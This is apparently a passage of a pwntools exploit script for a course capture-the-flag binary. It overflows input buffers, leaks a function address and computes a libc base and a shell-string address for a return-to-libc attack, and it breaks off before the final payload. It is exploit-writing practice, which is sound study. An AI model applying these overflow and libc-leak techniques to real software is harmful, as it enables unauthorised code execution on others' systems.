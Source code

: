 ```
    puts("Now it's your turn to tell me an interesting number fact!");
    fgets(buf1, 1336, stdin);
"""

print(io.recvuntil("Whats your favourite number?"))
io.sendline("0")

print(io.recvuntil("Zero... The first number I ever learnt, and the number of besties I had before I met you!"))
print(io.recvuntil("your turn to tell me an interesting number fact!"))

print("[] Sending wtf1")
# 7 x 191 = 1337
wtf_buffer1 = cyclic(512) # 1337
io.sendline(wtf_buffer1)
print("[] Sending wtf1 done")


# """ ============================Least fav II =============================="""

"""
  char buf2[200]; // [esp+8h] [ebp-D0h]

  printf("Mine is: %p\nWhats yours?\n", get_number);
  num = get_number();
  printf("Oh you don't like the number %d? Why not?\n", num);
  fgets(buf2, 209, stdin);
  if ( num == 1 )
    result = 6447;
  else
    result = 0;
"""

io.recvuntil("Do you have a LEAST favourite number? (y/n)")
io.sendline("y")

print(io.recvuntil("Mine is:"))
addr_get_number = io.recvline().strip()
print("[]addr_get_number : "+addr_get_number)
print(io.recvuntil("Whats yours?"))

# COMP6451 = bloody bitcoin/ethereum madness. Totally recommend after 6447 10/10
wtf_buffer2 = "6451" 
io.sendline(wtf_buffer2)

print(io.recvuntil("Why not?"))

# =======================Gen payload==============================


ida_getnumber = 0x00000713	
ida_fav = 0x000008B7
ida_relative_fav_push_puts = ida_fav + 0x7B

libc6_2273ubuntu1_i386_offset_puts = 0x00067b40

libc_base = int(addr_puts, 16) - libc6_2273ubuntu1_i386_offset_puts
libc_okbinsh = libc_base + 0x137e5e

print("libc_base : "+str(hex(libc_base)))
print("libc_okbinsh : "+str(hex(libc_okbinsh)))

buf = int(addr_get_number,16)
```